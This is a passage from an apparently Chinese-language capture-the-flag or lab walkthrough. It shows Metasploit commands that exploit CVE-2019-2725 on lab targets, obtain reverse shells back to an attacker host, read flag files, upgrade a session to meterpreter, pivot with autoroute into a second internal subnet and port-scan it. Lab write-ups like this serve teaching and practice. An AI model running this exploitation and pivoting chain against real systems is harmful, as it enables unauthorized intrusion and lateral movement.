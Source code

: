 ```bash
```

[![ack_2](https://asciinema.org/a/wkJGvztDXLToALaTtEqnoPVR0.svg)](https://asciinema.org/a/wkJGvztDXLToALaTtEqnoPVR0)

2. 攻破靶标 `victim-2-<2-4>`

- kaliattacker

```bash
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.177.84.3
# 分别设置不同的靶机 IP 
#set RHOSTS 192.177.84.4
#set RHOSTS 192.177.84.5

set lhost 192.168.182.130
# 分别 run
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```

[![ack_3](https://asciinema.org/a/hBmwfBwjBfmhwZcJ0sdTkb96x.svg)](https://asciinema.org/a/hBmwfBwjBfmhwZcJ0sdTkb96x)

#### 攻击靶标3-第二层内网的 `victim-3`

- kaliattacker

1. 发现靶标 `victim-3`

```bash
# 通过网卡、路由、ARP 发现新子网 192.178.85.0/24
sessions -c "ifconfig" -i 3,4,5
# 将会话 5 升级为 meterpreter shell
sessions -u 5
# 新的 meterpreter shell 会话编号此处为 6
sessions -i 6
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.178.85.0/24
run autoroute -p
# Active Routing Table
# ====================
# 
#    Subnet             Netmask            Gateway
#    ------             -------            -------
#    192.169.85.0       255.255.255.0      Session 7
#    192.170.84.0       255.255.255.0      Session 2
# 通过 CTRL-Z 将当前会话放到后台继续执行
use scanner/portscan/tcp
set RHOSTS 192.178.85.2-254
# 预先知道的端口 80
set ports 80
run -j
# 发现终点靶标 192.178.85.2 80(tcp)
```

